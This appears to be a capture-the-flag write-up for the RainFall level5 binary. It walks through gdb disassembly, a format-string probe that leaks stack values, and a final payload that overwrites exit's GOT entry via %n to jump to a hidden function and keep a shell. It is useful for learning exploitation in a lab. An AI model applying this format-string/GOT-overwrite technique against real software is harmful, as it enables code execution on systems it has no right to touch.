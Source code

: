 
```
(gdb) set height 30
(gdb) i func
0x080484a4  o
0x080484c2  n
0x08048504  main
```

n func calls prinft then exit
```
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```


```
level5@RainFall:~$ python -c 'print "AAAA" + " |%p| " * 20 ' | ./level5
AAAA |0x200|  |0xb7fd1ac0|  |0xb7ff37d0|  |0x41414141|

level5@RainFall:~$ python -c 'print "AAAA" + " |%4$x| " ' | ./level5
AAAA |41414141|
```
```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
 ```
 "[We’re in the PLT, and we see that we’re performing a jmp, but this is not a typical jmp. This is what a jmp to a function pointer would look like. The processor will dereference the pointer, then jump to resulting address.](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)"

"Let’s check the dereference and follow the jmp. Note that the pointer is in the .got.plt"

```
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```



call o from n <===> ovveride exit (0x8049838) of by addr of o (0x080484a4)

(gdb) p 0x080484a4 - 4 = 134513824


 (python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n" '; cat) | ./level5
 









